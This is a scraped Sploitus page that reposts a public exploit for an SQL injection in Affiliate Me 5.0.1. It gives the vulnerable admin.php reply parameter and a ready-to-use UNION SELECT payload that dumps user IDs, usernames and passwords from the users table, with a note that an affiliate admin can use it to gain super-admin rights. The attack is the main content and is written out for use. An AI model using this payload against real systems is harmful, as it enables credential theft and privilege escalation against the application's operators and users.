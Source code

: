 ```yaml
---
title: Affiliate Me 5.0.1 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172495&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-24
fetch_date: 2025-10-04T11:36:40.289884
---
```


# Affiliate Me 5.0.1 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Affiliate Me 5.0.1 SQL Injection

2023-05-23 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172495
[#] Exploit Title: Affiliate Me Version 5.0.1 - SQL Injection
[#] Exploit Date: May 16, 2023.
[#] CVSS 3.1: 6.4 (Medium)
[#] CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N
[#] Tactic: Initial Access (TA0001)
[#] Technique: Exploit Public-Facing Application (T1190)
[#] Application Name: Affiliate Me
[#] Application Version: 5.0.1
[#] Vendor: https://www.powerstonegh.com/

[#] Author: h4ck3r - Faisal Albuloushi
[#] Contact: SQL@hotmail.co.uk
[#] Blog: https://www.0wl.tech

[#] 3xploit:

[path]/admin.php?show=reply&id=[Injected Query]

[#] 3xample:

[path]/admin.php?show=reply&id=-999' Union Select 1,2,3,4,5,6,7,8,9,concat(ID,0x3a,USERNAME,0x3a,PASSWORD),11,12,13,14,15,16 from users-- -

[#] Notes:
- Affiliate admin can exploit this vulnerability to escalate his privileges to super admin.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)